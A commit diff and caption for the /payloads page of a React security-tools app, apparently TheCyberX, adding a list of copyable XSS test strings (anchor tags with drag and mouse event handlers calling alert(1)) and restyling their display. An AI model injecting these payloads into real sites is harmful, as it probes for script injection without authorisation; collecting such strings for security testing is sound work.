

Before and after one commit to thecyberworld/TheCyberX, a React (Vite) app: page /payloads in a window 1280 px wide. Shown: the part 290-1212 px from the top of the page, without its empty margins (0-814 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
improve & add xss payloads and structure of extension

```diff
--- a/src/components/Payloads/Payloads.tsx
+++ b/src/components/Payloads/Payloads.tsx
@@ -1,8 +1,13 @@
 import React, {useState} from "react";
 import SyntaxHighlighter from 'react-syntax-highlighter';
 import {CopyToClipboard} from 'react-copy-to-clipboard';
-import {PayloadsContainer, PayloadsCopyToClipboard, PayloadsHeading,} from "./PayloadsElements";
-import {AiOutlineCopy} from 'react-icons/ai';
+import {
+    CopyToClipboardIcon,
+    PayloadsContainer,
+    PayloadsCopyToClipboard,
+    PayloadsHeading,
+    SyntaxHighlighterDesign
+} from "./PayloadsElements";import {AiOutlineCopy} from 'react-icons/ai';
 import {docco} from 'react-syntax-highlighter/dist/esm/styles/hljs';
 
 const Payloads = () => {
@@ -10,6 +15,17 @@ const Payloads = () => {
     const PayloadsList = [
         "onload=alert(1)><svg/1=",
         ">alert(1)</script><script/1=",
+        '<a draggable="true" ondrag="alert(1)">test</a>',
+        '<a draggable="true" ondragend="alert(1)">test</a>',
+        '<a draggable="true" ondragenter="alert(1)">test</a>',
+        '<a draggable="true" ondragleave="alert(1)">test</a>',
+        '<a draggable="true" ondragstart="alert(1)">test</a>',
+    '<a onmouseenter="alert(1)">test</a>',
+    '<a onmouseleave="alert(1)">test</a>',
+    '<a onmousemove="alert(1)">test</a>',
+    '<a onmouseout="alert(1)">test</a>',
+    '<a onmouseover="alert(1)">test</a>',
+    '<a onmouseup="alert(1)">test</a>',
     ];
 
     const [state, setState] = useState({
@@ -20,11 +36,13 @@ const Payloads = () => {
     const PayloadsListMap = PayloadsList.map((payload, index) => {
         return (
             <PayloadsCopyToClipboard key={index}>
-                <SyntaxHighlighter language="javascript" style={docco}>
+                <SyntaxHighlighterDesign language="javascript" style={docco}>
                     {payload}
-                </SyntaxHighlighter>
+                </SyntaxHighlighterDesign>
                 <CopyToClipboard text={payload} onCopy={() => setState({value, copied: true})}>
-                    <AiOutlineCopy/>
+                    <CopyToClipboardIcon>
+                        <AiOutlineCopy/>
+                    </CopyToClipboardIcon>
                 </CopyToClipboard>
             </PayloadsCopyToClipboard>
         );
@@ -33,7 +51,6 @@ const Payloads = () => {
     return (
         <PayloadsContainer>
             <PayloadsHeading>Payloads</PayloadsHeading>
-            <SyntaxHighlighter>TTY shell</SyntaxHighlighter>
 
             {PayloadsListMap}
 
--- a/src/components/Payloads/PayloadsElements.tsx
+++ b/src/components/Payloads/PayloadsElements.tsx
@@ -1,5 +1,10 @@
 import styled from 'styled-components';
+import {AiOutlineCopy} from 'react-icons/ai';
+import SyntaxHighlighter from 'react-syntax-highlighter';
 
+export const SyntaxHighlighterDesign = styled(SyntaxHighlighter)`
+    min-width: 300px;
+`;
 export const PayloadsContainer = styled.div`
     display: flex;
     flex-direction: column;
@@ -7,22 +12,23 @@ export const PayloadsContainer = styled.div`
     padding: 0 30px;
     position: relative;
     z-index: 1;
-    margin-top: 80px;
+    margin-top: 20px;
     width: 500px;
 `;
 
+export const CopyToClipboardIcon = styled.div`
+    margin: 22px 0 0 5px;
+    font-size: 25px;
+`;
 
 export const PayloadsCopyToClipboard = styled.div`
     display: flex;
 
 `;
 
-export const PayloadsHeading = styled.h2`
-
+export const PayloadsHeading = styled.h1`
+margin: 10px 0 10px 0;
 `;
 
-
-
 export const CopyToClipboard = styled.h2`
-
 `;
```
